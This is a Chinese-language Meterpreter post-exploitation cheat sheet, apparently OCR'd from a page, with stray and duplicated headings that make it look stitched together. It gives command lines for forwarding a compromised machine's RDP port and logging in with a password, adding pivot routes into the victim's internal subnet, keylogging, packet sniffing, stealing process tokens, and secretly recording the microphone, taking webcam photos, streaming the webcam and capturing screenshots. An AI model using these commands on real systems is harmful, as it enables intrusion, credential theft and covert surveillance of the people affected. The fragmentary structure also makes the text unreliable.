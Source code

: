 
#### timestomp伪造时间戳

> 
<h3>2.4、网络命令</h3>
<h4>基本网络命令</h4>
<pre><code>ipconfig/ifconfig    #看网络接口信息
netstat –ano         #查看网络连接状态
arp         #查看arp缓冲表
getproxy    #查看代理信息
route       #查看路由表信息
</code></pre>
<hr/>
<h4>portfwd端口转发</h4>
<pre><code>portfwd add -l 1111 -p 3389 -r 127.0.0.1  #将目标机的3389端口转发到本地1111端口
rdesktop 127.0.0.1:1111                   #需要输入用户名密码连接
rdesktop -u Administrator -p 123 127.0.0.1:1111   #-u 用户名 -p 密码
</code></pre>
<hr/>
<h4>autoroute添加路由</h4>
<pre><code>run autoroute -h        #查看帮助
run get_local_subnets   #查看目标内网网段地址
run autoroute -s 192.168.183.0/24    #添加目标网段路由
run autoroute -p        #查看添加的路由
</code></pre>


#### portfwd端口转发

---


> 
<h3>2.5、信息收集</h3>
<h4>键盘记录</h4>
<pre><code>keyscan_start  #开始键盘记录
keyscan_dump   #导出记录数据
keyscan_stop   #结束键盘记录
</code></pre>
<hr/>
<h4>sniffer抓包</h4>
<pre><code>use sniffer
sniffer_interfaces  #查看网卡
sniffer_start 1     #选择网卡1开始抓包
sniffer_stats 1     #查看网卡1状态
sniffer_dump 1 /tmp/wlan1.pcap  #导出pcap数据包
sniffer_stop 1     #停止网卡1抓包
sniffer_release 1  #释放网卡1流量
</code></pre>
<hr/>
<h4>窃取令牌</h4>
<pre><code>steal_token &lt;pid值&gt;   #从指定进程中窃取token  
drop_token            #停止假冒当前的token
</code></pre>
<hr/>
<h4>网络摄像头</h4>
<pre><code>record_mic　   #音频录制
webcam_chat    #开启视频聊天(对方有弹窗）
webcam_list    #查看摄像头
webcam_snap    #通过摄像头拍照
webcam_stream  #通过摄像头开启视频监控(以网页形式进行监控≈直播）
</code></pre>
<hr/>
<h4>截屏</h4>
<pre><code>screenshot  #截屏
use espia   #使用espia模块